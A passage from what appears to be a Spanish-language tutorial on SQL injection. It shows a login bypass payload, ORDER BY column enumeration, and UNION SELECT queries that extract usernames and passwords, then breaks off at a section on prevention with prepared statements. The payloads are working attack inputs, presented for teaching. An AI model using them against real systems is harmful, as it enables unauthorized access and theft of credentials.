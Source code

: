 - Usuario: `' OR '1'='1`
- Contraseña: `' OR '1'='1`

Se convierte en:

```sql
SELECT * FROM users WHERE username = '' OR '1'='1' AND password = '' OR '1'='1';
```

🔓 ¡Acceso sin saber la contraseña!

---

#### 3. **Enumeración de columnas y tablas**

##### Obtener número de columnas

Usamos:

```
ORDER BY n
```

Ejemplo:

```
?id=1 ORDER BY 1--
?id=1 ORDER BY 2--
?id=1 ORDER BY 3--
```

Cuando dé error, el número anterior es el total de columnas.

---

##### Obtener datos visibles con UNION

```
?id=-1 UNION SELECT 1,2--
```

Muestra los números `1` y `2` en pantalla si hay dos columnas.

---

#### 4. **Extraer información**

Digamos que ya sabes que hay dos columnas visibles. Puedes hacer:

```
?id=-1 UNION SELECT username, password FROM users--
```

💥 Esto mostrará todos los usuarios y contraseñas.

---

### 🔒 Cómo prevenir SQL Injection

✅ Siempre usar **sentencias preparadas (prepared statements)**

